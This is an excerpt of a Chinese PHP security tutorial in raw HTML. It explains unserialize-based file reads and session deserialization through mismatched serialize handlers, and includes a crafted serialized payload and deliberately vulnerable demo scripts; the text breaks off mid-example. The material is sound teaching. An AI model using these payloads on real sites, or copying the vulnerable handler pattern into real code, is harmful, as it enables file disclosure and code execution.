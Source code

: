      <span class="hljs-keyword">public</span> <span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">__toString</span><span class="hljs-params">()</span> {</span>
        <span class="hljs-keyword">return</span> file_get_contents(<span class="hljs-variable">$this</span>-&gt;file);
    }
}
<span class="hljs-variable">$a</span> = <span class="hljs-string">'O:4:"test":3:{s:8:"username";s:0:"";s:8:"password";s:0:"";s:4:"file";s:28:"C:\Users\YZ\Desktop\plan.txt";}'</span>;
<span class="hljs-keyword">echo</span> unserialize(<span class="hljs-variable">$a</span>);
<span class="hljs-preprocessor">?&gt;</span></code></pre>
<h2 id="16session-反序列化漏洞">16.session 反序列化漏洞</h2>
<p>主要原因是 <br>
ini_set(‘session.serialize_handler’, ‘php_serialize’); <br>
ini_set(‘session.serialize_handler’, ‘php’); <br>
两者处理session的方式不同</br></br></br></p>
<p>利用下面代码可以生成session值</p>
<pre class="prettyprint"><code class="language-php hljs "><span class="hljs-preprocessor">&lt;?php</span>
ini_set(<span class="hljs-string">'session.serialize_handler'</span>, <span class="hljs-string">'php_serialize'</span>);<span class="hljs-comment">//a:1:{s:6:"spoock";s:3:"111";}</span>
<span class="hljs-comment">//ini_set('session.serialize_handler', 'php');//a|s:3:"111"</span>
session_start();
<span class="hljs-variable">$_SESSION</span>[<span class="hljs-string">"spoock"</span>]=<span class="hljs-variable">$_GET</span>[<span class="hljs-string">"a"</span>];
<span class="hljs-preprocessor">?&gt;</span></code></pre>
<p>我们来看看生成的session值</p>
<pre class="prettyprint"><code class="language-php hljs ">
spoock|s:<span class="hljs-number">3</span>:<span class="hljs-string">"111"</span>;    <span class="hljs-comment">//session键值|内容序列化</span>
a:<span class="hljs-number">1</span>:{s:<span class="hljs-number">6</span>:<span class="hljs-string">"spoock"</span>;s:<span class="hljs-number">3</span>:<span class="hljs-string">"111"</span>;}a:<span class="hljs-number">1</span>:{s:N:session键值;内容序列化}
在ini_set(<span class="hljs-string">'session.serialize_handler'</span>, <span class="hljs-string">'php'</span>);中把|之前认为是键值后面的视为序列化
那么就可以利用这一漏洞执行一些恶意代码</code></pre>
<p>看下面的例子 <br>
1.php</br></p>
<pre class="prettyprint"><code class="language-php hljs "><span class="hljs-preprocessor">&lt;?php</span>
ini_set(<span class="hljs-string">'session.serialize_handler'</span>, <span class="hljs-string">'php_serialize'</span>);
session_start();
<span class="hljs-variable">$_SESSION</span>[<span class="hljs-string">"spoock"</span>]=<span class="hljs-variable">$_GET</span>[<span class="hljs-string">"a"</span>];
<span class="hljs-preprocessor">?&gt;</span></code></pre>
<p>2.php</p>
<pre class="prettyprint"><code class="language-php hljs "><span class="hljs-preprocessor">&lt;?php</span>
   ini_set(<span class="hljs-string">'session.serialize_handler'</span>, <span class="hljs-string">'php'</span>);
session_start();
<span class="hljs-class"><span class="hljs-keyword">class</span> <span class="hljs-title">lemon</span> {</span>
    <span class="hljs-keyword">var</span> <span class="hljs-variable">$hi</span>;
    <span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">__construct</span><span class="hljs-params">()</span>{</span>
        <span class="hljs-variable">$this</span>-&gt;hi = <span class="hljs-string">'phpinfo();'</span>;
    }
